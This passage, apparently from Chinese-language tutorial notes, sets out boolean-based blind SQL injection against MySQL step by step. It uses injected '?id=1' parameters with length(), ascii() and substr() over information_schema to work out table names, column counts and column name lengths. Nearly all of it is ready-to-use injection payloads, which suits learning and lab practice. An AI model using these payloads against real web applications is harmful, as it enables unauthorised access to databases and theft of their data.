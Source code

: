       ```mysql
      ?id=1 and length((select table_name from information_schema.tables where table_schema=database() limit 1,1))=4
      ```

3. 表名

   1. 第一个表名

      ```mysql
      ?id=1 and ascii(substr((select table_name from information_schema.tables where table_schema = database() limit 0,1),1,1)) = ascii的字符数字
      ………………
      ?id=1 and ascii(substr((select table_name from information_schema.tables where table_schema = database() limit 0,1),6,1)) = ascii的字符数字
      ```

   2. 第二个表名

      ```mysql
      ?id=1 and ascii(substr((select table_name from information_schema.tables where table_schema = database() limit 1,1),1,1)) = ascii的字符数字
      …………
      ?id=1 and ascii(substr((select table_name from information_schema.tables where table_schema = database() limit 1,1),4,1)) = ascii的字符数字
      ```

## 数据字段

1. 字段名的个数

   1. 第一个表字段个数

      ```mysql
      ?id=1 and (select count(column_name) from information_schema.columns where table_name='第一个表名') = 个数
      ```

   2. 第二个表字段个数

      ```mysql
      ?id=1 and (select count(column_name) from information_schema.columns where table_name='第二个表名') = 个数
      ```

2. 字段名长度

   1. 第一个表

      ```mysql
      第一个字段长度 : 
      	?id=1 and length(substr((select column_name from information_schema.columns where table_name='第一个表名' limit 0,1),1)) = 长度
      ```

      ```mysql
      第二个字段长度 : 
      	?id=1 and length(substr((select column_name from information_schema.columns where table_name='第一个表名' limit 1,1),1)) = 长度
      ```
